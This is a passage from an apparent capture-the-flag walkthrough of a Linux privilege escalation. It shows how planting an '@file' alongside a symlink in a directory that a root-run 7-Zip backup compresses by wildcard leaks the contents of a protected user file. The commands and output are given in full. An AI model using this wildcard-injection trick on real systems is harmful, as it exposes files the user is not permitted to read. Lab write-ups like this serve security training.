 ```bash
Scanning the drive:
2984 folders, 17945 files, 113878710 bytes (109 MiB)

Creating archive: /var/backups/project.zip

Items to compress: 20929

                                                                               
Files read from disk: 17945
Archive size: 54829558 bytes (53 MiB)
Everything is Ok
```

The info we have here is the whole html directory seems to be 7zipped into a backup directory. We can make a few assumptions here that we will run with until they are disproven. Firstly 7zip is the backbone of this functionality so any exploit of logic within that is our golden goose. Secondly the code calling the zipping function might be doing so with a wildcard.

[This hacktricks section](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----16397895490f--------------------------------#id-7z) goes over ways to exploit spare wildcards. 7z is here and thanks to the wildcard you can add two files: @file and file where the regular file is a symlink to another resource. When the 7z sees @file it will view it as a file containing a list of files it needs to compress. Upon reading the file an error will be thrown and the contents are printed to the console. 

To test all of this I will make an @user.txt and user.txt symlink since I cannot read them as xander and check the output of the binary.

```bash
xander@usage:/var/www/html$ touch @user.txt
xander@usage:/var/www/html$ ln -s /home/dash/user.txt user.txt
xander@usage:/var/www/html$ cat 
project_admin/ usage_blog/    @user.txt      user.txt       
xander@usage:/var/www/html$ cat user.txt
cat: user.txt: Permission denied
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54829558

Scanning the drive:
          
WARNING: No more files
fd70b103607e29-------------------

2984 folders, 17946 files, 113878743 bytes (109 MiB)                           

Updating archive: /var/backups/project.zip

Items to compress: 20930

                                                                               
Files read from disk: 17946
```